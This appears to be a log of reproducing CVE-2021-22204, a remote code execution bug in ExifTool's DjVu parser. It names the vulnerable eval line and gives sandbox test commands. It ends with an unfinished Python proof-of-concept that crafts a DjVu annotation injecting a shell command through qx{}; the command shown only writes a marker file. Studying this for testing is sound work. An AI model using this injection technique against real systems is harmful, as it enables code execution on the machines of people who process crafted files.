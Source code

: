
vulnerable_functions
[00:04:14]
File: lib/Image/ExifTool/DjVu.pm (v1.06 in 12.23)
Function: ProcessAnt/ParseAnt token handling around quoted string parsing.
Indicator: Uses eval on file-controlled token after insufficient escaping:
  $tok = eval qq{"$tok"};
Impact: Remote code execution when processing malicious DjVu files (CVE-2021-22204).


vulnerable_entrypoints
[00:04:24]
Primary attack surface: CLI tool `exiftool` reading untrusted files.
- File parsers: DjVu reader (lib/Image/ExifTool/DjVu.pm) in 12.23 allows RCE via crafted ANT metadata in .djvu files.
Testing commands (in sandbox):
- To reproduce (12.23): perl exiftool-12.23/exiftool <malicious.djvu>
- Safe version (12.24): perl exiftool-12.24/exiftool <same.djvu> should not execute payload.
Other parsers updated (JXL) but not identified as vulnerable.
No network listeners; attack via file inputs or embedded DjVu streams in containers that exiftool parses.


poc_script
[00:51:40]
#!/usr/bin/env python3
import struct
from pathlib import Path

def be32(n):
    return struct.pack('>I', n)

# Exploit token leveraging \c escape to consume the backslash that protects the dollar
# After DjVu.pm pre-escaping, eval qq{"$tok"} sees: \c\${\(qx{...})}
# The \c consumes the next char (the backslash), leaving ${\(qx{...})} which gets interpolated,
# invoking qx{...} and executing the shell command.
inj_tok = "\\c\\${\\(qx{/bin/sh -c 'printf pwned > /tmp/exiftool_pwned'})}"
payload = f'(metadata "{inj_tok}")\n'

anta_data = payload.encode('ascii')
anta_chunk = b'ANTa' + be32(len(anta_data)) + anta_data

children = anta_chunk
form_type = b'DJVU'
size = len(form_type) + len(children)
djvu = b'AT&TFORM' + be32(size) + form_type + children
